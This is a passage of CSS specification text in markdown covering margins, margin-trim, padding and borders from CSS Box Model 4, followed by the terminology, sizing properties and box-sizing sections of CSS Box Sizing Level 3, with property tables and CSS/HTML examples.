: Refers to the nearest SVG viewport’s **origin box**, which is a rectangle with the width and height of the SVG viewport, positioned such that its top left corner is anchored at the coordinate system origin. (In a CSS box context, treated as `border-box`.)

  > **Note:** When the SVG viewport is not itself anchored at the origin, this origin box does not actually correspond to the SVG viewport!

For convenience, the following value types are defined to represents commonly used subsets of `<box>`:

```css
<visual-box> = content-box | padding-box | border-box
<layout-box> = <visual-box> | margin-box
<paint-box> = <visual-box> | fill-box | stroke-box
<coord-box> = <paint-box> | view-box
```

### 3. Margins {#css-box-4:margins}

**Margins** surround the border edge of a box, providing spacing between boxes. The **margin properties** specify the thickness of the margin area of a box. The `margin` shorthand property sets the margin for all four sides while the margin longhand properties only set their respective side. This specification defines the physical `margin` longhands; [CSS Logical Properties 1 § 4.2 Flow-Relative Margins: the margin-block-start, margin-block-end, margin-inline-start, margin-inline-end properties and margin-block and margin-inline shorthands](#css-logical-1:margin-properties) additionally defines flow-relative `margin` longhands. Both sets of properties control the same set of margins: they are just different ways of indexing each side.

> **Note:** Adjoining margins in block layout *collapse*. See [CSS2§8.3.1 Collapsing Margins](#css2:collapsing-margins) for details. Also, margins adjoining a fragmentation break are sometimes truncated. See [CSS Fragmentation 4 § 5.2 Adjoining Margins at Breaks: the margin-break property](#css-break-4:break-margins) for details.

#### 3.1. Page-relative (Physical) Margin Properties: the `margin-top`, `margin-right`, `margin-bottom`, and `margin-left` properties {#css-box-4:margin-physical}

| Field | Value |
| --- | --- |
| Name: | **margin-top**, **margin-right**, **margin-bottom**, **margin-left** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` \| auto |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except internal table elements, ruby base containers, and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to logical width of containing block |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto` or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `margin` |

These properties set the top, right, bottom, and left margin of a box, respectively.

Negative values for margin properties are allowed, but there may be implementation-specific limits.

#### 3.2. Margin Shorthand: the `margin` property {#css-box-4:margin-shorthand}

| Field | Value |
| --- | --- |
| Name: | **margin** |
| [Value:](#css-values-4:value-defs) | `<'margin-top'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except internal table elements, ruby base containers, and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to logical width of containing block |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `margin` property is a shorthand property for setting `margin-top`, `margin-right`, `margin-bottom`, and `margin-left` in a single declaration.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom margins are set to the first value and the right and left margins are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values they apply to the top, right, bottom, and left, respectively.

> **Example:** The following code demonstrates some possible `margin` declarations.
>
> ```
> body { margin: 2em }         /* all margins set to 2em */
> body { margin: 1em 2em }     /* top & bottom = 1em, right & left = 2em */
> body { margin: 1em 2em 3em } /* top=1em, right=2em, bottom=3em, left=2em */
> ```
>
> The last rule of the example above is equivalent to the example below:
>
> ```
> body {
>   margin-top: 1em;
>   margin-right: 2em;
>   margin-bottom: 3em;
>   margin-left: 2em; /* copied from opposite side (right) */
> }
> ```

#### 3.3. Margins at Container Edges: the `margin-trim` property {#css-box-4:margin-trim}

| Field | Value |
| --- | --- |
| Name: | **margin-trim** |
| [Value:](#css-values-4:value-defs) | none \| block \| [ block-start \|\| block-end ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block containers, multi-column containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | a set of zero to two keywords indicating which sides to trim |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Oftentimes, margins are desired between siblings, but not at the start/end of the container where spacing can be controlled with padding. This property allows the container to trim the margins of its children where they adjoin the container’s edges. Values have the following meanings:

****none****

: Margins are not trimmed by the container.

  > **Note:** However, in block layout, child margins can collapse with their parent. See [CSS2§8.3.1: Collapsing Margins](#css2:collapsing-margins).

****block-start** **block-end****

: For in-flow boxes contained by this box, margins adjacent to the box’s specified edges are truncated to zero. It also truncates any descendant margins collapsed with such a margin (but not its own, its siblings’, or its ancestors’).

****block****

: Computes to `block-start block-end`.

> **Note:** Following the shortest-serialization principle, computed values equivalent to `block` will serialize as that keyword.

Adjacency is not sensitive to space governed by box alignment [CSS-ALIGN-3].

> **Note:** See also the `margin-break` property, which applies to the box’s own margins when they adjoin a fragmentation break (page break / column break / etc.).

> **Issue:** Define how this property affects margins at breaks if the box establishes a fragmentation context. See also [Issue 3314](https://github.com/w3c/csswg-drafts/issues/3314).

> **Note:** This property has no effect on the margins of floats when specified on a block container; a future level of this module may introduce specific controls for floats.

##### 3.3.1.  Trimming Block Container Content {#css-box-4:margin-trim-block}

For block containers specifically, `margin-trim` discards:

- The block-start margin of a block-level first child, when trimming at the block-start edge.
- The block-end margin of a block-level last child, when trimming at the block-end edge.
- Any margin collapsed with these margins.

It has no effect on any margins of inline-level descendants.

### 4. Padding {#css-box-4:paddings}

**Padding** is inserted between the content edge and the padding edge of a box, providing spacing between the content and the border. The **padding properties** specify the thickness of the padding area of a box. The `padding` shorthand property sets the padding for all four sides while the padding longhand properties only set their respective side. This specification defines the physical `padding` longhands; [CSS Logical Properties 1 § 4.4 Flow-Relative Padding: the padding-block-start, padding-block-end, padding-inline-start, padding-inline-end properties and padding-block and padding-inline shorthands](#css-logical-1:padding-properties) additionally defines flow-relative `padding` longhands. Both sets of properties control the same set of padding: they are just different ways of indexing each side.

> **Note:** Backgrounds specified on the box are by default laid out and painted within the padding edges. (They are additionally painted underneath the border, in the border area.) This behavior can be adjusted using the `background-origin` and `background-clip` properties.

#### 4.1. Page-relative (Physical) Padding Properties: the `padding-top`, `padding-right`, `padding-bottom`, and `padding-left` properties {#css-box-4:padding-physical}

| Field | Value |
| --- | --- |
| Name: | **padding-top**, **padding-right**, **padding-bottom**, **padding-left** |
| [Value:](#css-values-4:value-defs) | `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except: internal table elements other than table cells, ruby base containers, and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to logical width of containing block |
| [Computed value:](#css-cascade-6:computed) | a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `padding` |

These properties set the top, right, bottom, and left padding of a box, respectively.

Negative values for padding properties are invalid.

#### 4.2. Padding Shorthand: the `padding` property {#css-box-4:padding-shorthand}

| Field | Value |
| --- | --- |
| Name: | **padding** |
| [Value:](#css-values-4:value-defs) | `<'padding-top'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements except: internal table elements other than table cells, ruby base containers, and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to logical width of containing block |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `padding` property is a shorthand property for setting `padding-top`, `padding-right`, `padding-bottom`, and `padding-left` in a single declaration.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom padding are set to the first value and the right and left padding are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third.

> **Example:** The following code demonstrates some possible `padding` declarations.
>
> ```
> body { padding: 2em }         /* all padding set to 2em */
> body { padding: 1em 2em }     /* top & bottom = 1em, right & left = 2em */
> body { padding: 1em 2em 3em } /* top=1em, right=2em, bottom=3em, left=2em */
> ```
>
> The last rule of the example above is equivalent to the example below:
>
> ```
> body {
>   padding-top: 1em;
>   padding-right: 2em;
>   padding-bottom: 3em;
>   padding-left: 2em; /* copied from opposite side (right) */
> }
> ```

### 5. Borders {#css-box-4:borders}

**Borders** fill the border area, to visually delineate the edges of the box, The **border properties** specify the thickness of the border area of a box, as well as its drawing style and color. See [CSS Backgrounds 3 § 3 Borders](#css-borders-4:borders) for the definition of the physical variants of these properties; [CSS Logical Properties 1 § 4.5 Flow-Relative Borders](#css-logical-1:border-properties) additionally defines flow-relative border longhands. Both sets of properties control the same set of borders: they are just different ways of indexing each side.

---

## CSS Box Sizing Module Level 3 {#css-sizing-3}

- **Shortname:** `css-sizing-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-sizing-3/](https://drafts.csswg.org/css-sizing-3/)
- **Published TR:** [https://www.w3.org/TR/css-sizing-3/](https://www.w3.org/TR/css-sizing-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-10-08

### 1.  Introduction {#css-sizing-3:intro}

*This section is not normative.*

CSS layout has several different concepts of automatic sizing that are used in various layout calculations. This section defines some more precise terminology to help connect the layout behaviors of this spec to the calculations used in other modules, and some new keywords for the `width` and `height` properties to allow authors to assign elements the dimensions resulting from these size calculations.

> **Issue:** This spec needs illustrations! See [issue](https://github.com/w3c/csswg-drafts/issues/1938).

#### 1.1.  Module interactions {#css-sizing-3:placement}

This module extends the `width`, `height`, `min-width`, `min-height`, `max-width`, `max-height`, and `column-width` features defined in [CSS2] chapter 10 and in [CSS3COL]

The definition of the `box-sizing` property in this module supersedes the one in [CSS-UI-3].

#### 1.2.  Value Definitions {#css-sizing-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Terminology {#css-sizing-3:terms}

Some key terminology related to coordinate axises and dimensions is defined in [CSS Writing Modes 3 § 6 Abstract Box Terminology](#css-writing-modes-4:abstract-box).

****size****

: A one- or two-dimensional measurement: a block size and/or inline size; alternatively a width and/or height.

  

  Whether the width or height corresponds to an inline size or block size depends on the writing mode.

****inner size****

: The [content-box](#css2:box-dimensions) size of a box.

  

  Inner size

****outer size****

: The [margin-box](#css2:box-dimensions) size of a box.

  

  Outer size

****definite size****

: A size that can be determined without performing layout; that is, a `<length>`, a measure of text (without consideration of line-wrapping), a size of the initial containing block, or a `<percentage>` or other formula (such the [“stretch-fit” sizing of non-replaced blocks](#css2:blockwidth) [CSS2]) that is resolved solely against definite sizes.

  Additionally, the size of the containing block of an absolutely positioned element is always definite with respect to that element.

****indefinite size****

: A size that is not definite. Indefinite available space is essentially infinite.

  > **Note:** intrinsic sizing keywords such as `max-content` are indefinite, even if they can be determined without laying out the children e.g. due to size containment or lack of children.

****available space****

: A size representing the space into which a box is laid out, as determined by the rules of the formatting context in which it participates. The space available to a box is usually either a measurement of its containing block (if that is definite) or an infinite size (when it is indefinite). Available space can alternatively be either a min-content constraint or a max-content constraint, which forces boxes laid into it to be laid out under that constraint.

****stretch fit****

: The stretch fit into a given size is that size, minus the box’s computed margins (not collapsed, treating `auto` as zero), border, and padding in the given dimension (such that the outer size is a perfect fit), and flooring at zero (so that the inner size is not negative).

  > **Note:** This is the formula used to calculate the `auto` widths of non-replaced blocks in normal flow in [CSS2.1§10.3.3](#css2:blockwidth).

****fallback size****

: Some sizing algorithms do not work well with an infinite size. In these cases, the fallback size is used instead. Unless otherwise specified, this is the size of the initial containing block.

#### 2.1.  Auto Box Sizes {#css-sizing-3:auto-box-sizes}

There are four types of automatically-determined sizes in CSS (sizes resulting from `auto` sizing rules, depending on context):

****stretch-fit size** **stretch-fit inline size** **stretch-fit block size****

: The size a box would take if its outer size filled the available space in the given axis; in other words, the stretch fit into the available space, if that is definite. Undefined if the available space is indefinite.

  > **Note:** For the inline axis, this is called the “available width” in [CSS2.1§10.3.5](#css2:float-width) and computed by the rules in [CSS2.1§10.3.3](#css2:blockwidth).

  > **Note:** Calculations involving this size need to specify a fallback behavior for when the available space is indefinite if that happens to be possible.

****max-content size****

: A box’s “ideal” size in a given axis when given infinite available space. Usually this is the smallest size the box could take in that axis while still fitting around its contents, i.e. minimizing unfilled space while avoiding overflow.

  ****max-content inline size****

  : The box’s “ideal” size in the inline axis. Usually the narrowest inline size it could take while fitting around its contents if *none* of the soft wrap opportunities within the box were taken. (See [§ 5 Intrinsic Size Determination](#css-sizing-3:intrinsic).)

    > **Note:** This is called the “preferred width” in [CSS2.1§10.3.5](#css2:float-width) and the “maximum cell width” in [CSS2.1§17.5.2.2](#css2:auto-table-layout).

  ****max-content block size****

  : The box’s “ideal” size in the block axis. Usually the block size of the content after layout.

  If the ideal max-content size would be smaller than the min-content size (e.g. due to the use of negative margins) the effective max-content size is floored by the min-content size.

****min-content size****

: Nominally, the smallest size a box could take that doesn’t lead to overflow that could be avoided by choosing a larger size. Formally, the size of the box when sized under a min-content constraint, see [§ 5 Intrinsic Size Determination](#css-sizing-3:intrinsic).

  ****min-content inline size****

  : The min-content size in the inline axis. Typically, the inline size that would fit around its contents if *all* soft wrap opportunities within the box were taken.

    > **Note:** This is called the “preferred minimum width” in [CSS2.1§10.3.5](#css2:float-width) and the “minimum content width” in [CSS2.1§17.5.2.2](#css2:auto-table-layout).

  ****min-content block size****

  : The min-content size in the block axis. For block containers, tables, and inline boxes, this is equivalent to the max-content block size.

****fit-content size** **fit-content inline size** **fit-content block size****

: If the available space in a given axis is definite, equal to `clamp(min-content size, stretch-fit size, max-content size)` (i.e. `max(min-content size, min(max-content size, stretch-fit size))`). When sizing under a min-content constraint, equal to the min-content size. Otherwise, equal to the max-content size in that axis.

  > **Note:** This is called the “shrink-to-fit” width in [CSS2.1§10.3.5](#css2:float-width) and [CSS Multi-column Layout § 3.4](#css-multicol-2:pseudo-algorithm).

****intrinsic size****

: A max-content size or min-content size, i.e. a size arising primarily from the size of the content. (Some uses of this term may refer also to sizes derived primarily from one of these two sizes.)

  Replaced elements frequently derive their intrinsic size from their natural dimensions.

> **Example:** The following example applies fit-content sizing to the width of the inner `<div>`, and places it within containing blocks of varying sizes:
>
> - In the narrowest containing block (`2ch`), the box takes its min-content size—​overflowing its containing block in order to fully contain all its content, which has wrapped as narrowly as possible.
> - In the middle containing block (`9ch`), the box takes its stretch-fit size—​filling the containing block exactly while its content wraps to fit inside.
> - In the widest containing block (`16ch`), the box takes its max-content size—​smaller than the containing block, but fitting around its unwrapped contents exactly.
>
> ```
> <!DOCTYPE html>
> <style>div > div { width: fit-content; }</style>
> <div style="width: 2ch;">
>   <div>abc def ehg</div>
> </div>
> <div style="width: 9ch;">
>   <div>abc def ehg</div>
> </div>
> <div style="width: 16ch;">
>   <div>abc def ehg</div>
> </div>
> ```
>
> 
>
> Using the `min-width` or `max-width` property in place of `width` here would apply these same sizes as the minimum width or maximum width (respectively), constraining the preferred width to find the used width. See [§ 3 Specifying Box Sizes](#css-sizing-3:specifying-sizes) and [§ 3.2 Sizing Values: the <length-percentage>, auto | none, stretch, min-content, max-content, and fit-content values](#css-sizing-3:sizing-values).

#### 2.2.  Intrinsic Size Contributions {#css-sizing-3:contributions}

****max-content contribution****

: The size that a box contributes to its containing block’s max-content size.

****min-content contribution****

: The size that a box contributes to its containing block’s min-content size.

****intrinsic size contribution****

: A max-content contribution, min-content contribution, or similarly-calculated content-based size contribution.

Intrinsic size contributions are based on the outer size of the box; for this purpose `auto` margins are treated as zero.

If the ideal max-content contribution would be smaller than the min-content contribution (e.g. due to the use of negative margins) the effective max-content contribution is floored by the min-content contribution.

#### 2.3.  Intrinsic Size Constraints {#css-sizing-3:constraints}

****max-content constraint****

: A sizing constraint imposed by the box’s containing block that causes it to produce its max-content contribution.

****min-content constraint****

: A sizing constraint imposed by the box’s containing block that causes it to produce its min-content contribution.

****preferred aspect ratio****

: A width:height ratio inherent to a box, which biases various sizing algorithms to produce a size consistent with that aspect ratio insofar as possible while honoring other sizing inputs. Unless otherwise specified, a box’s preferred aspect ratio is its natural aspect ratio if it has one and is applied to its content box. Most boxes do not have a preferred aspect ratio.

### 3.  Specifying Box Sizes {#css-sizing-3:specifying-sizes}

#### 3.1.  Sizing Properties {#css-sizing-3:sizing-properties}

This section defines the **sizing properties**, which specify the preferred, minimum, and maximum sizes of the box to which they are applied. Their potential values are defined in the next section, [§ 3.2 Sizing Values: the <length-percentage>, auto | none, stretch, min-content, max-content, and fit-content values](#css-sizing-3:sizing-values).

The flow-relative variants (`inline-size`, `block-size`, etc.) are mapped using the writing mode of the element itself, and interact with their physical counterparts (`width`, `height`, etc.) as defined in [CSS-LOGICAL-1]. See also [CSS Writing Modes 3 § 6 Abstract Box Terminology](#css-writing-modes-4:abstract-box).

In CSS, while the minimum and maximum sizes both constrain the used size, the minimum size constraint is always the strongest constraint. Furthermore, the inner size is always floored at zero.

##### 3.1.1.  Preferred Size Properties: the `width`, `height`, `inline-size`, and `block-size` properties {#css-sizing-3:preferred-size-properties}

| Field | Value |
| --- | --- |
| Name: | **width**, **height**, **inline-size**, **block-size** |
| [Value:](#css-values-4:value-defs) | auto \| `<box-size>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements except non-replaced inlines |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to width/height of containing block |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type, recursing into `fit-content()` |
| [Logical property group:](#css-logical-1:logical-property-group) | `size` |

The `width` and `height` (physical) and `inline-size` and `block-size` (flow-relative) are sizing properties that specify the **preferred** **width** and **height** (physical) or **inline size** and **block size** (flow-relative) of the box, respectively.

##### 3.1.2.  Minimum Size Properties: the `min-width`, `min-height`, `min-inline-size`, and `min-block-size` properties {#css-sizing-3:min-size-properties}

| Field | Value |
| --- | --- |
| Name: | **min-width**, **min-height**, **min-inline-size**, **min-block-size** |
| [Value:](#css-values-4:value-defs) | auto \| `<box-size>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements that accept `width` or `height` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to width/height of containing block |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value, recursing into `fit-content()` |
| [Logical property group:](#css-logical-1:logical-property-group) | `min-size` |

The `min-width` and `min-height` (physical) and `min-inline-size` and `min-block-size` (flow-relative) are sizing properties that specify the **minimum width** (“min width”) and **minimum height** (“min height”) or **minimum inline size** (“min inline size”) and **minimum block size** (“min block size”) of the box, respectively.

> **Note:** The initial value of `auto` is new; in [CSS2] the initial value was zero.

##### 3.1.3.  Maximum Size Properties: the `max-width`, `max-height`, `max-inline-size`, and `max-block-size` properties {#css-sizing-3:max-size-properties}

| Field | Value |
| --- | --- |
| Name: | **max-width**, **max-height**, **max-inline-size**, **max-block-size** |
| [Value:](#css-values-4:value-defs) | none \| `<box-size>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements that accept `width` or `height` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to width/height of containing block |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value, recursing into `fit-content()` |
| [Logical property group:](#css-logical-1:logical-property-group) | `max-size` |

The `max-width` and `max-height` (physical) and `max-inline-size` and `max-block-size` (flow-relative) are sizing properties that specify the **maximum width** (“max width”) and **maximum height** (“max height”) or **maximum inline size** (“max inline size) and **maximum block size** (“max block size) of the box, respectively.

#### 3.2.  Sizing Values: the `<length-percentage>`, `auto` | `none`, `stretch`, `min-content`, `max-content`, and `fit-content` values {#css-sizing-3:sizing-values}

The following values are used in the sizing properties. Values other than `auto` and `none` are grouped under the `<box-size>` production:

```css
<box-size> = <length-percentage [0,∞]> | stretch | min-content | max-content | fit-content
```

> **Note:** The equivalent of `<box-size>` for Level 2 would be just `<length-percentage>` alone.

****`<length-percentage [0,∞]>`****

: Specifies the size of the box using `<length>` and/or `<percentage>`. The `box-sizing` property indicates whether the content box or border box is measured.

  Percentages are resolved against the width/height, as appropriate, of the box’s containing block. If, in a particular axis, the containing block’s size depends on the box’s size, see the relevant layout module for special rules on how to resolve percentages.

  Negative values are invalid.

****auto****

: For `width`/`height`, specifies an **automatic size** (**automatic block size**/**automatic inline size**). See the relevant layout module for how to calculate this.

  For `min-width`/`min-height`, specifies an **automatic minimum size**. Unless otherwise defined by the relevant layout module, however, it resolves to a used value of `0`. For backwards-compatibility, the resolved value of this keyword is zero for boxes of all [CSS2] display types (block and inline boxes, inline blocks, and all table display types) when `aspect-ratio` is `auto`. It also resolves to zero when no box is generated.

****none****

: No limit on the size of the box.

****stretch****

: Applies stretch-fit sizing, attempting to match the size of the box’s margin box to the size of its containing block. See [§ 4.2 Stretch-fit Sizing: filling the containing block](#css-sizing-3:stretch-fit-sizing).

****min-content****

: Use the min-content size in the relevant axis; for a box’s block size, unless otherwise specified, this is equivalent to its automatic size.

****max-content****

: Use the max-content size in the relevant axis; for a box’s block size, unless otherwise specified, this is equivalent to its automatic size.

****fit-content****

: Use the fit-content size in the relevant axis, i.e. `min(max-content, max(min-content, stretch))`.

In all cases, the used value is floored to preserve a non-negative inner size.

> **Note:** The `stretch`, `min-content`, `max-content`, and `fit-content` values are new in Level 3.

> **Note:** The `flex-basis` property hereby also gains these new keywords, as its values are defined by reference to `<'width'>`.

##### 3.2.1.  “Behaving as `auto`” {#css-sizing-3:behave-auto}

To have a common term for both when `width`/`height` computes to `auto` and when it is defined to behave as if `auto` were specified (as in the case of [block percentage heights](#css2:the-height-property) resolving against an indefinite size, see [CSS2§10.5](#css2:the-height-property)), the property is said to **behave as auto** in both of these cases.

> **Note:** Legacy spec prose defining layout behavior, particularly in [CSS2], might explicitly refer to `width`/`height` having a computed value of `auto` as a condition; some of these cases should be interpreted as meaning behaves as auto, and reported to the CSSWG for updating.

> **Issue:** Replace this section with references to the new term automatic size.

##### 3.2.2.  Containing or Excluding Floats {#css-sizing-3:the-contain-floats-value}

*This section is non-normative.*

Although block box boundaries are typically pervious to floats, sometimes an author needs them to contain their own (descendant) floats or to exclude floats from outside. For Block layout, specifying `display: flow-root` will make the box a formatting context root, which has this behavior.

> **Note:** Boxes participating in Flex, Grid, or Table layout will automatically have this behavior.

#### 3.3.  Box Edges for Sizing: the `box-sizing` property {#css-sizing-3:box-sizing}

| Field | Value |
| --- | --- |
| Name: | **box-sizing** |
| [Value:](#css-values-4:value-defs) | content-box \| border-box |
| [Initial:](#css-cascade-6:initial-values) | content-box |
| [Applies to:](#css-cascade-5:applies-to) | all elements that accept `width` or `height` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `box-sizing` property defines whether fixed sizes (such as `<length>`s and `<percentage>`s) are assigned to the content box or to the border box. It affects the interpretation of all sizing properties, including `flex-basis`.

Values have the following meanings:

****content-box****

: Sizes specified on sizing properties as `<length-percentage>` represent the box’s inner sizes, excluding the margins/border/padding: they are applied to the content box. The padding and border of the box are laid out and drawn *outside* the specified `width` and `height`.

  > **Note:** This is the behavior of width and height as specified by CSS2.1, and is thus the default.

****border-box****

: Any `<length-percentage>` values in the sizing properties are applied to the border box, thus representing the box’s visually-apparent sizes: the padding and border of the box (but not its margins) are essentially laid out and drawn *inside* the used `width` and `height`, with the content box sized to fill the remaining space. More specifically, the content box width and height are calculated by subtracting the border and padding in the corresponding axis from the specified <length-percentage>, and flooring the result at zero (as the inner size of a box cannot be negative).

  Used values of the sizing properties, as exposed for instance through `getComputedStyle()`, also refer to the border box.

Values affected by `box-sizing` include both raw `<length-percentage>` values and those used in functional notations such as `fit-content()` [css-sizing-4]. In contrast, non-quantitative values such as `auto` and `min-content` are not influenced by the `box-sizing` property (unless otherwise specified).

> **Example:** For example, the following properties set the content-box size of the box to `100px`, with the border-box size calculating to `120px`:
>
> ```css
> .box {
>   box-sizing:   content-box; /* default */
>   width:        100px;
>   padding-left: 10px;
>   border-left:  10px solid;
> }
> ```
>
> On the other hand, by changing to `border-box`, the border-box is set to `100px`, with the content-box size calculating to `80px`:
>
> ```css
> .box {
>   box-sizing:   border-box;
>   width:        100px;
>   padding-left: 10px;
>   border-left:  10px solid;
> }
> ```
>
> The inner size can’t be less than zero, so if the `padding` + `border` is greater than the specified border-box size, the box will end up larger than specified. In this case, the content-box size will floor at `0px` so the border-box size ends up at `120px`, even though `width: 100px` is specified for the border box:
>
> ```css
> .box {
>   box-sizing:   border-box;
>   width:        100px;
>   padding-left: 60px;
>   border-left:  60px solid;
>   /* padding + border = 120px */
> }
> ```

> **Example:** This example uses box-sizing to evenly horizontally split two divs with fixed size borders inside a div container, which would otherwise require additional markup.
>
> sample CSS:
>
> ```
> div.container {
>   width:38em;
>   border:1em solid black;
> }
>
> div.split {
>   box-sizing:border-box;
>   width:50%;
>   border:1em silver ridge;
>   float:left;
> }
> ```
>
> sample HTML fragment:
>
> ```
> <div class="container">
> <div class="split">This div occupies the left half.</div>
> <div class="split">This div occupies the right half.</div>
> </div>
> ```
>
> demonstration of sample CSS and HTML:
>
> This div should occupy the left half.
>
> This div should occupy the right half.
>
> The two divs above should appear side by side, each (including borders) 50% of the content width of their container. If instead they are stacked one on top of the other then your browser does not support `box-sizing`.

> **Note:** Certain HTML elements, such as `button`, default to `border-box` behavior. See HTML for details on which elements have this behavior.

In legacy CSS specifications, the terms width, height, minimum (min) width, minimum (min) height, maximum (max) width, and maximum (max) height generally refer to the inner size (content-box size) of a box unless otherwise indicated.

Refer to [CSS User Interface 3 § 3.1 Changing the Box Model: the box-sizing property](#css-ui-4:box-sizing) for an explicit disambiguation of these terms for the [Visual formatting model details](#css2) section of [CSS2].

> **Advisement:** To avoid ambiguities, specification authors should avoid ambiguous uses of terms such as width or height without further qualification, and should explicitly refer and link to the inner size, the outer size, the size of the [border-box](#css2:box-dimensions), the computed value of the sizing properties, etc, as appropriate for each case.

#### 3.4.  New Column Sizing Values: the `stretch`, `min-content`, `max-content`, and `fit-content` values {#css-sizing-3:column-sizing}

| Field | Value |
| --- | --- |
| Name: | `column-width` |
| [Value:](#css-values-4:value-defs) | auto \| `<box-size>` |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

> **Issue:** This section is likey to be dropped. [[Issue #14574]](https://github.com/w3c/csswg-drafts/issues/14574)

When used as values for `column-width`, the new keywords specify the optimal column width:

****stretch****

: Specifies the optimal column width as the stretch-fit inline size of the multi-column container.

****min-content****

: Specifies the optimal column width as the min-content inline size of the multi-column container’s contents.

****max-content****

: Specifies the optimal column width as the max-content inline size of the multi-column container’s contents.

****fit-content****

: Specifies the optimal column width as `min(max-content inline size, max(min-content inline size, stretch-fit inline size))`.

> **Note:** The column width never varies by column. When the column width is informed by the multi-column container’s contents (as in the keywords above), all of its contents are taken under consideration and the calculated width is shared by all the columns.

